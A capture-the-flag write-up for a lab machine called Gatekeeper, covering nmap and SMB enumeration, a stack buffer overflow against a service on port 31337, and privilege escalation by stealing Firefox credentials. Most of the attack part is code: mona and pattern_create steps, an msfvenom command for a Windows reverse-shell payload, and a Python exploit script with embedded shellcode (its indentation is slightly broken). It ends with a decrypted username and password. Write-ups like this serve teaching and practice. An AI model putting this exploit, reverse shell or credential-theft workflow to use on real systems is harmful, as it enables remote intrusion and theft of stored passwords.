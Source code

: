 # Gatekeeper

First of all we do a nmap scan:

```bash
nmap 10.10.211.241  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-03 08:03 EST
Nmap scan report for 10.10.211.241
Host is up (0.058s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
31337/tcp open  Elite
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49161/tcp open  unknown
49167/tcp open  unknown
```

First of all I am going to enumerate SAMBA

```bash
smbclient -L 10.10.211.241       

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Users           Disk      

smbclient //10.10.211.241/Users
smb: \> ls
  .                                  DR        0  Thu May 14 21:57:08 2020
  ..                                 DR        0  Thu May 14 21:57:08 2020
  Default                           DHR        0  Tue Jul 14 03:07:31 2009
  desktop.ini                       AHS      174  Tue Jul 14 00:54:24 2009
  Share                               D        0  Thu May 14 21:58:07 2020

                7863807 blocks of size 4096. 3876514 blocks available
```

In the share directory I have found an exe file, which I am going to transfer in my windows machine.

I setted up my windows machine with Immunity Debugger+ mona.py, and I wrote a script to gain inital access.

I found the offset by writing in the prompt the output of this command:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 700
```

Then after the crash I wrote in the immunity prompt 

```bash
!mona findmsp -distance 700
```

The results will give you the offset.

I found out the bad chars and jump point with mona too.

msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "<badchars>" -f c

I then added some NOPs and wrote this python script:

```bash
import socket

ip = "10.10.98.109"
port = 31337

offset = 146
overflow = "A" * offset
retn = "\xc3\x14\x04\x08"
padding = "\x90" * 16
payload = ("\xdb\xd4\xbb\xde\xb4\xa5\xcc\xd9\x74\x24\xf4\x58\x29\xc9"
"\xb1\x52\x31\x58\x17\x03\x58\x17\x83\x1e\xb0\x47\x39\x62"
"\x51\x05\xc2\x9a\xa2\x6a\x4a\x7f\x93\xaa\x28\xf4\x84\x1a"
"\x3a\x58\x29\xd0\x6e\x48\xba\x94\xa6\x7f\x0b\x12\x91\x4e"
"\x8c\x0f\xe1\xd1\x0e\x52\x36\x31\x2e\x9d\x4b\x30\x77\xc0"
"\xa6\x60\x20\x8e\x15\x94\x45\xda\xa5\x1f\x15\xca\xad\xfc"
"\xee\xed\x9c\x53\x64\xb4\x3e\x52\xa9\xcc\x76\x4c\xae\xe9"
"\xc1\xe7\x04\x85\xd3\x21\x55\x66\x7f\x0c\x59\x95\x81\x49"
"\x5e\x46\xf4\xa3\x9c\xfb\x0f\x70\xde\x27\x85\x62\x78\xa3"
"\x3d\x4e\x78\x60\xdb\x05\x76\xcd\xaf\x41\x9b\xd0\x7c\xfa"
"\xa7\x59\x83\x2c\x2e\x19\xa0\xe8\x6a\xf9\xc9\xa9\xd6\xac"
"\xf6\xa9\xb8\x11\x53\xa2\x55\x45\xee\xe9\x31\xaa\xc3\x11"
"\xc2\xa4\x54\x62\xf0\x6b\xcf\xec\xb8\xe4\xc9\xeb\xbf\xde"
"\xae\x63\x3e\xe1\xce\xaa\x85\xb5\x9e\xc4\x2c\xb6\x74\x14"
"\xd0\x63\xda\x44\x7e\xdc\x9b\x34\x3e\x8c\x73\x5e\xb1\xf3"
"\x64\x61\x1b\x9c\x0f\x98\xcc\xa9\xdd\xb6\x78\xc6\xe3\xb6"
"\x91\x4a\x6d\x50\xfb\x62\x3b\xcb\x94\x1b\x66\x87\x05\xe3"
"\xbc\xe2\x06\x6f\x33\x13\xc8\x98\x3e\x07\xbd\x68\x75\x75"
"\x68\x76\xa3\x11\xf6\xe5\x28\xe1\x71\x16\xe7\xb6\xd6\xe8"
"\xfe\x52\xcb\x53\xa9\x40\x16\x05\x92\xc0\xcd\xf6\x1d\xc9"
"\x80\x43\x3a\xd9\x5c\x4b\x06\x8d\x30\x1a\xd0\x7b\xf7\xf4"
"\x92\xd5\xa1\xab\x7c\xb1\x34\x80\xbe\xc7\x38\xcd\x48\x27"
"\x88\xb8\x0c\x58\x25\x2d\x99\x21\x5b\xcd\x66\xf8\xdf\xed"
"\x84\x28\x2a\x86\x10\xb9\x97\xcb\xa2\x14\xdb\xf5\x20\x9c"
"\xa4\x01\x38\xd5\xa1\x4e\xfe\x06\xd8\xdf\x6b\x28\x4f\xdf"
"\xb9")
postfix = ""

buffer =  overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
    s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
```

After gaining initial access and wondering around a bit I noticed that the only possible thing to do would be getting credentials from Firefox, I used the metasploit tool `post/multi/gather/firefox_creds`

After that I ran firefox_decrypt and got the username and password:

```bash
python3 firefox_decrypt.py  firefox/loot

2024-01-03 10:00:37,134 - WARNING - profile.ini not found in firefox/loot
2024-01-03 10:00:37,134 - WARNING - Continuing and assuming 'firefox/loot' is a profile location

Website:   https://creds.com
Username: 'mayor'
Password: '8CL7O1N78MdrCIsV'
```